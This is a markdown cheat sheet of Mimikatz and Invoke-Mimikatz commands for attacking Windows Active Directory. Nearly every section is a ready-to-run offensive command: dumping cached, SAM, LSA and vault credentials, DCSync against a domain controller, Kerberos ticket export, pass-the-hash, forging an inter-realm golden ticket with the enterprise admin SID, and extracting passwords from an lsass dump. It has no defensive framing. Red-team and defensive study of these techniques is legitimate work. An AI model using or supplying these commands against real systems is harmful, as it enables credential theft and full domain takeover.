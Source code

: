### Source 
https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1  
https://github.com/gentilkiwi/mimikatz  

### Elevate to system ("token::revert" to drop token)
```
Invoke-Mimikatz -Command '"token::elevate"'
```

### Dump credentials
```
Domain Cached Credential - "lsadump::cache"
Security Hives - "lsadump::sam"
Machine Accounts "lsadump::secrets"
Local Security Authority Substem Service - "sekurlsa::logonPasswords full"
Data Protection API - "vault::cred"
```

### Execute DCSync for single user
```
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:<domain> /user:<user>"'
```

### Export all tickets from memory
```
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

### Pass the hash
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlmHash>"'
```

### Inter realm golden ticket - can be done offline, since domain controller connection is not necessary (/enind = validity period 60 minutes, /user can be fictitious, -519 is the SID of enteprise admin)
```
Invoke-Mimikatz -Command '"kerberos::golden /user:<attackerAccount> /domain:<compromisedDomain> /sid:<sidCompromisedDomain> /sids:<sidTargetDomain>-519 /krbtgt:<ntlmHashKrbTgt> /endin:60"'
```

### Dump credentials from lsass dump
```
mimikatz.exe
mimi> sekurlsa::minidump <file>.dmp
mimi> sekurlsa::logonPasswords full
```

### Write output of command to file
```
mimi> log <file>.txt
```

